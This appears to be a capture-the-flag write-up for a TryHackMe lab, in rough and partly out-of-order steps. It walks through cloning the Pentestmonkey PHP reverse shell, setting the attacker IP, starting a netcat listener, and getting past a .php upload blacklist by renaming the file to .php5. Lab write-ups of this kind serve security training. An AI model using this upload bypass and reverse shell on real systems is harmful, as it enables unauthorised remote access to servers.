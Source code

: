 ## Uploading Reverse Shell

To bypass the restriction and get a reverse shell, we use a PHP reverse shell from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Download the reverse shell using:

![Reverse Shell](https://github.com/user-attachments/assets/19f28f5b-098b-41a4-b576-53322a3084ab)

```bash
git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
nano php-reverse-shell.php 
```
![image](https://github.com/user-attachments/assets/dc7b1ca7-5c11-4d95-9aeb-8db32fb7de0e)

Replace the IP with your THM VPN IP.

---

### Uploading the Reverse Shell:

![Upload Reverse Shell](https://github.com/user-attachments/assets/0829c5f3-101f-4fda-bb22-16cedbe42a88)

---

## Setting up Listener

In a separate terminal, start a Netcat listener:

```bash
nc -lvnp <your-port>
```

Once the file is uploaded successfully, trigger the shell by navigating to the uploaded file path.

---

### Reverse Shell Captured:

![Reverse Shell](https://github.com/user-attachments/assets/19f28f5b-098b-41a4-b576-53322a3084ab)
Let upload a shell i rename as shell.php
![image](https://github.com/user-attachments/assets/1e8ee09a-173d-44bc-bee5-9c90655200c4)

As i upload it not permiting me to upload to .php format

![image](https://github.com/user-attachments/assets/87692c48-ea83-42cc-a738-3f47bc8f53a9)

As i not allwoing us to upoad .php we need to chnage the version bez the black listing has mention .php. just chnae and version and upload
```
cp -r php-reverse-shell.php shell.php5
```
upload

